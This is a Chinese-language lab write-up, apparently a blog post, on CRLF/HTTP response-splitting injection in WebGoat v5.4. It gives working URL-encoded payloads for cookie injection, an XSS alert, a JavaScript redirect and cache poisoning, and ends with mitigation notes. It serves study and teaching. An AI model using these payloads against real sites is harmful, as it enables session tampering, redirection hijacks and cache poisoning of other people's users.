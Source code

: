 ```yaml
---
title: CRLF response 拆分攻击 
description: CRLF拆分漏洞比较冷门，现在也很少了，不过还是搭了个环境简单研究了下，补充了解。
categories:
 - web vul
tags:
 - CRLF
---
```


## 概述

> CRLF是“回车+换行”（\r和\n）/（%0d和%0a）的简称。  
形成原因：Web应用程序未对用户提交的数据进行严格过滤和检查，导致攻击者可以提交一些恶意字符如(CR、LF等)然后进行构造恶意代码进行攻击。正常输入的请求中加入恶意代码，控制HTTP响应header中的字符（Location，Set-Cookie），注入一个 %0d%0a，可以控制首部，注入两个%0d%0a，可以控制主体， 浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。

![pic2](/assets/crlf/1.png)

## 实验环境
* webgoat v5.4  
* 问题点：输入的“china”拼接到新链接，然后302跳转至新链接，构造输入，在“china”后面添加包含CRLF的恶意代码

![pic](/assets/crlf/2.png)

![pic](/assets/crlf/3.png)

## 漏洞利用

### 利用1 控制response header——set cookie

`china%0d%0aSet-cookie:crlf=true`

![pic](/assets/crlf/4.png)

### 利用2 控制response body——XSS弹窗

```sh
china
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 30

<html>
<script>alert(/xss/)</script>
</html>
```

`china%0AContent-Length:%200%0A%0AHTTP/1.1%20200%20OK%0AContent-Type:%20text/html;charset=utf-8%0AContent-Length:%2030%0A%0A%3Chtml%3E%0A%3Cscript%3Ealert(/xss/)%3C/script%3E%0A%3C/html%3E`

![pic](/assets/crlf/5.png)

![pic](/assets/crlf/6.png)

![pic](/assets/crlf/7.png)

### 利用2 控制response body——XSS跳转劫持

换行符是`%0d%0a`，空一行是`%0d%0a%0d%0a`，实验也是成功的

```sh
china
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 47

<html>
<script language="JavaScript">
document.location.href="http://www.baidu.com"
</script>
</html>
```

`china%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a%3Chtml%3E%0A%3Cscript%20language%3D%22JavaScript%22%3E%0Adocument.location.href%3D%22http%3A%2F%2Fwww.baidu.com%22%0A%3C%2Fscript%3E%0A%3C%2Fhtml%3E`

![pic](/assets/crlf/71.png)

* server根据response1跳转

![pic](/assets/crlf/8.png)

* 发起第二个request进行跳转至新链接

![pic](/assets/crlf/9.png)

* 根据response2跳转至baidu

![pic](/assets/crlf/10.png)

### 缓存毒化

> Server收到带Last-Modified这个头，下次浏览器发送request就会带上If-Modified-Since或者If-Unmodified-Since，服务器收到这个request的If-Modified-Since后，通过读取它的值对比资源存在的地方的Last-Modified，服务器就告诉浏览器是否可以使用缓存。

```sh
china
Content-Length: 0
 
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2099 14:50:18 GMT
Content-Length: 30
 
<html>arlentest</html>
```

![pic](/assets/crlf/11.png)

## 说明

> 现在的主流Web服务器比如IIS，Apache HTTP Server以及WebGoat使用的Tomcat等等都有对这个问题作过改进，服务器会对即将发送出去的HTTP响应头里面每一项的值都会做一定的编码或者转换，以避免这个问题。比如Tomcat就响应头中的每一项的值都做过了URLEncode，从而保证即使Web应用存在HTTP应答拆分的漏洞，Web服务器上也从底层平台的角度保证了尽可能避免HTTP应答拆分漏洞带来的威胁。所以如果想要在自己的实验室环境中重现对HTTP应答拆分漏洞的成功利用，可以尝试安装比较老的Web服务器版本，比如Tomcat 4.1.24之前的版本。另外客户端也会有些关系，因为客户端可能会在每次请求后完全收取服务器响应回来的数据，并且把超出范围的多余数据丢弃，这样也可以避免HTTP应答拆分攻击可能造成的影响。

## 参考链接

[WebGoat教程解析——HTTP Response Splitting](https://blog.csdn.net/eatmilkboy/article/details/8061159)  
[webgoat中文手册](http://www.owasp.org.cn/owasp-project/download/WebGoatv2.2.pdf)